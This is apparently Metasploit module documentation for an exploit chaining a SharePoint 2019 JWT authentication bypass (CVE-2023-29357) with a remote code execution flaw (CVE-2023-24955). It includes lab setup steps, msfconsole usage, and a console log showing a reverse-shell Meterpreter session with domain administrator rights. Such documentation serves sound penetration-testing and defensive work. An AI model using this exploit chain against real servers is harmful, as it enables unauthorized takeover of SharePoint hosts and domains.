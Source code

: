 ## Vulnerable Application
This module exploits two vulnerabilities in Sharepoint 2019, an auth bypass CVE-2023-29357 which was patched
in June of 2023 and CVE-2023-24955, an RCE which was patched in May of 2023.

The auth bypass allows attackers to impersonate the Sharepoint admin user. This vulnerability stems from the
signature validation check used to verify JSON Web Tokens (JWTs) used for OAuth authentication. If the signing
algorithm of the user-provided JWT is set to none, SharePoint skips the signature validation step due to a logic
flaw in the ReadTokenCore() method.

After impersonating the administrator user, the attacker has access to the Sharepoint API and is able to
exploit CVE-2023-24955. This authenticated RCE vulnerability leverages the impersonated privileged account to
replace the "/BusinessDataMetadataCatalog/BDCMetadata.bdcm" file in the webroot directory with a payload. The
payload is then compiled and executed by Sharepoint allowing attackers to remotely execute commands via the API.

### Setup 
Setup Windows Server 2022  [20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso](https://software-download.microsoft.com/download/sg/20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso).
Change the computer name to "sp1".
In network connections set the IP address of the machine to a static IP on the appropriate interface.
Set the DNS settings - one to the hardcoded address of the machine and the alternate to 8.8.8.8.
Add the AD DS role to the Server and then promote to a domain controller, use all the default settings. Name the domain "domain.local".
Download and install [SQL Server 2022](https://go.microsoft.com/fwlink/?linkid=2215202&clcid=0x409&culture=en-us&country=us) with all default settings.
Download [Sharepoint 2019 image](https://download.microsoft.com/download/C/B/A/CBA01793-1C8A-4671-BE0D-38C9E5BBD0E9/officeserver.img).

Mount the image on the newly configured Domain Controller.
Before installing the prerequisites you must go to Server Manager -> Local Server -> IE Enhanced Security Configuration -> Set to OFF
The prerequisites installer will fail to download prereqs without this.

Run the splash.hta file, then select Install Prerequisites, this will reboot the machine.
Remount the installer and rerun the PrerequisitesInstaller.exe. Once complete for the second time, click finish, this will reboot the machine.
Remount the installer and run setup.exe, this will install all the necessary binaries, this will reboot the machine

The SharePoint Products Configuration Wizard should launch automatically, if not you can launch it from the start menu.
Click next on the Welcome to Sharepoint Products page. It will tell you that it may have to reboot the machine, click Yes.
Select "Create a new server farm", click Next.

Input the following:
Database server: sp1
Database name: SharePoint_Config
Username: DOMAIN\\Administrator
Password: N0tpassword!

Click Next.

Specify Farm Security Settings:
Enter and reenter a passphrase:

Click Next.

Specify Server Role:
Single-Server Farm

Click Next.

Configure SharePoint Central Administration Web Application
No changes here, keep the port number default and keep NTLM selected,

Click Next.

You should now have a vulnerable version of SharePoint 2019 installed.

## Verification Steps

1. Start msfconsole
1. Do: `use sharepoint_dynamic_proxy_generator_auth_bypass_rce`
1. Set the `RHOST`, `LHOST`, and `HOSTNAME` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the SharePoint application.

## Scenarios
### SharePoint 2019 
```
msf exploit(windows/http/sharepoint_dynamic_proxy_generator_auth_bypass_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sharepoint version detected: 16.0.0.10337
[*] Discovered hostname is: sp1
[*] realm: 1a150b01-299a-48a9-afd4-379402fff4de, client_id: 00000003-0000-0ff1-ce00-000000000000
[*] Got Oauth Info: 1a150b01-299a-48a9-afd4-379402fff4de|00000003-0000-0ff1-ce00-000000000000
[*] Lob id is: XafKHq
[*] Successfully impersonated Site Admin: 00000003-0000-0ff1-ce00-000000000000
[+] The target is vulnerable. Authentication was successfully bypassed via CVE-2023-29357 indicating this target is vulnerable to RCE via CVE-2023-24955.
[*] BDCMetadata file already present on the remote host, backing it up.
[+] Stored the original BDCMetadata.bdcm file in loot before overwriting it with the payload: /Users/jheysel/.msf4/loot/20240206152102_default_172.16.199.72_sharepoint.confi_163878.txt
[+] Payload has been successfully delivered
[*] Sending stage (200774 bytes) to 172.16.199.72
[+] BDCMetadata.bdcm has been successfully restored to it's original state.
[*] Meterpreter session 4 opened (172.16.199.1:4444 -> 172.16.199.72:51458) at 2024-02-06 15:21:04 -0500

meterpreter > getuid
Server username: DOMAIN\Administrator
meterpreter > sysinfo
Computer        : SP1
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : DOMAIN
Logged On Users : 20
Meterpreter     : x64/windows
meterpreter >
```
